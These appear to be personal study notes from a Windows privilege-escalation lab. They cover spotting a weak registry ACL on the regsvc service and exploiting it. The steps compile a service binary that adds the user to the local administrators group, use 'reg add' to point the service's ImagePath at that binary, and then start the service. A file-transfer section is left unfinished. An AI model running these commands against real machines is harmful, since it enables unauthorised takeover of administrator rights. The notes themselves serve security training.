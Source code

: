 #Windows #PrivEsc #Registry #SimpleHTTPServer #msiexec #MSFvenom #metasploit #msfconsole #meterpreter #regsvc

﻿## ﻿﻿﻿﻿**Detection**

Windows VM

1. Open powershell prompt and type: `Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl`
2. Notice that the output suggests that user belong to “`NT AUTHORITY\INTERACTIVE`” has “`FullContol`” permission over the registry key.

**Exploitation**

Windows VM

1. Copy ‘`C:\Users\User\Desktop\Tools\Source\windows_service.c`’ to the Kali VM.
- pyftpdlib! [[0_File Transfers]]
	- For transfer from RHOST to LHOST ==resume here==
```

```

Kali VM

1. Open `windows_service.c` in a text editor and replace the command used by the `system()` function to: `cmd.exe /k net localgroup administrators user /add`  
2. Exit the text editor and compile the file by typing the following in the command prompt: `x86_64-w64-mingw32-gcc windows_service.c -o x.exe`
		*(NOTE: if this is not installed, use '`sudo apt install gcc-mingw-w64`')* 
1. Copy the generated file `x.exe`, to the Windows VM.

Windows VM

1. Place `x.exe` in ‘`C:\Temp`’.  
2. Open command prompt at type: `reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d c:\temp\x.exe /f`  
3. In the command prompt type: `sc start regsvc`  
4. It is possible to confirm that the user was added to the local administrators group by typing the following in the command prompt: `net localgroup administrators`

